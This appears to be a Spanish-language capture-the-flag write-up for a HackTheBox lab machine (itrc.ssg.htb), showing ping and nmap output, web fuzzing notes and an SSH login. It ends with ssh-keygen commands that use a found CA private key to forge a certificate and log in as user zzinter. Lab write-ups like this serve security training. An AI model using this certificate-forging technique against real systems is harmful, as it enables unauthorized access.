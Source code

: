 #medium #Linux #tecnicas 
### Ping

```python
ping -c 1 10.10.11.27
PING 10.10.11.27 (10.10.11.27) 56(84) bytes of data.
64 bytes from 10.10.11.27: icmp_seq=1 ttl=63 time=149 ms

--- 10.10.11.27 ping statistics ---
1 packets transmitted, 1 received, 0% packet loss, time 0ms
rtt min/avg/max/mdev = 149.269/149.269/149.269/0.000 ms
```

### TTL = 63 Linux

### nmap

```python
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-08-07 16:12 EDT
Nmap scan report for 10.10.11.27
Host is up (0.16s latency).
Not shown: 65532 closed tcp ports (reset)
PORT     STATE SERVICE VERSION
22/tcp   open  ssh     OpenSSH 9.2p1 Debian 2+deb12u3 (protocol 2.0)
| ssh-hostkey: 
|   256 d5:4f:62:39:7b:d2:22:f0:a8:8a:d9:90:35:60:56:88 (ECDSA)
|_  256 fb:67:b0:60:52:f2:12:7e:6c:13:fb:75:f2:bb:1a:ca (ED25519)
80/tcp   open  http    nginx 1.18.0 (Ubuntu)
|_http-title: Did not follow redirect to http://itrc.ssg.htb/
|_http-server-header: nginx/1.18.0 (Ubuntu)
2222/tcp open  ssh     OpenSSH 8.9p1 Ubuntu 3ubuntu0.10 (Ubuntu Linux; protocol 2.0)
| ssh-hostkey: 
|   256 f2:a6:83:b9:90:6b:6c:54:32:22:ec:af:17:04:bd:16 (ECDSA)
|_  256 0c:c3:9c:10:f5:7f:d3:e4:a8:28:6a:51:ad:1a:e1:bf (ED25519)
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel

Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 27.39 seconds
```

### Enumeración del puerto 80
primero agregamos la dirección http://itrc.ssg.htb/ a nuestro archivo /etc/hosts. la web nos muestra dos rutas. `Register` `Login`
![[Pasted image 20240807161601.png]]

`Resgister`
después de crear nuestro propio usuario podemos ingresar a la web con las credenciales
![[Pasted image 20240807163716.png]]

### Enumeración con wfuzz
haciendo fuzzing podemos encontrar 3 dominios `assets, uploads, api` 
![[Pasted image 20240807164442.png]]

`fuzzing para archivos pgp,txt,html`
encontramos `index.php` y `admin.php` que son muy interesantes
![[Pasted image 20240807173429.png]]

`index.php?page=admin`
aqui encontramos mas información. en los usuarios previos SSH nos dice que contactemos a `zzinter` un posible usuario. existe un archivo en 
![[Pasted image 20240807173522.png]]


`conexión`
con las credenciales encontradas podemos obtener una conexión vía ssh
![[Pasted image 20240807181359.png]]

`id_rsa`
podemos ver en el directorio lo que parece ser una id_rsa tanto la privada como la publica
![[Pasted image 20240807181911.png]]


`sshkeygen`
debemos crear un directorio temporal en la carpeta `/tmp` debemos crear un nuevo par de claves `id_rsa` y también demos traernos a esta ruta las keys que vimos anteriormente. 

```python
ssh-keygen -t rsa -b 2048 -f id_rsa

ssh-keygen -s ca-itrc -I user-cert -n zzinter -V +52w -z 12345 id_rsa.pub

ssh -o CertificateFile=id_rsa-cert.pub -i id_rsa zzinter@localhost

mv ca-itrc ca-itrc.pub
```

![[Pasted image 20240807184214.png]]
